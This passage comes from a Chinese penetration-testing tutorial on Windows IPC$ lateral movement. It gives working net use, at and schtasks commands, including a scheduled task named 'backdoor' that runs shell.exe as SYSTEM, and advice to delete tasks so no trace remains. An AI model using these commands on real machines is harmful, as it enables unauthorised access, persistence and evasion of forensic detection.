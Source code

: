 **九、ipc**
---------

### **ipc 简介**

IPC$ 是为了让进程间通信而开放的命名管道，通过提供可信任的用户名和口令，即能建立链接，达到访问远程计算机的目的。利用这个链接不仅可以访问目标机器中的文件，进行上传下载等操作，还能在目标机器上执行部分命令。

```
net use \\ip\ipc$ "password" /user:username
```

如果账户和口令正确，就建立好了链接。

建立好链接后就能执行以下命令

```
dir \\192.168.183.130\c$ 列出C盘copy C:\Users\douser\Desktop\whoami.txt \\192.168.183.130\c$ 上传文件tasklist /S 192.168.183.130 /U administrator /P liu78963 列出某IP上的进程信息，/U指定哪个用户执行该命令，/p指定该用户密码net use \\IP /del /y 删除链接net use 查看已建立的ipc链接
```

### **利用 ipc 横向移动**

#### at

```
at \\192.168.183.130 17:05:00 cmd.exe /c "<命令>"at \\192.168.183.130 17:05:00 powershell.exe -c "<命令>"
```

关于时间的获得，可以使用 net time \\IP 获得。

计划任务执行后需要删除，不留痕迹

```
at \\192.168.183.130 1 /delete  //1为任务的ID
```

关于此方法我们可以先通过 copy 上传恶意文件然后通过 at 来执行它，或者直接通过 powershell 远程加载上线等

#### **schtasks**

at 命令已经被 Windows Vista、Windows Server 2008 及之后版本的操作系统废弃了，取而代之的是 schtasks 命令。

横向移动的大致思路与 at 差不多。

```
在目标主机上创建一个名称为“backdoor”的计划任务。该计划任务每分钟启动一次，启动程序为我们之前到C盘下的shell.exe，启动权限为system。schtasks /create /s 192.168.183.130 /tn backdoor /sc minute /mo 1  /tr c:\shell.exe /ru system /f 但也有些时候，由于当前权限或组策略设置等原因，该schtasks方法远程创建计划任务可能会报错拒绝访问,遇到这种情况，我们可以加上/u和/p参数分别设置高权限用户名和密码 schtasks /create /s 192.168.183.130 /u username /p password /tn backdoor /sc minute /mo 1 /tr c:\shell.exe /ru system /f另外，在我们创建好计划任务后，可以通过下列指令立即让计划任务执行（如果拒绝访问的话就加上/u /p参数）schtasks /run /s 192.168.183.130 /i /tn backdoor // i：忽略任何限制立即运行任务计划任务执行后需要清理痕迹schtasks /delete /s 192.168.183.130 /tn "backdoor" /f
```

#### sc

这个命令可以操控服务。

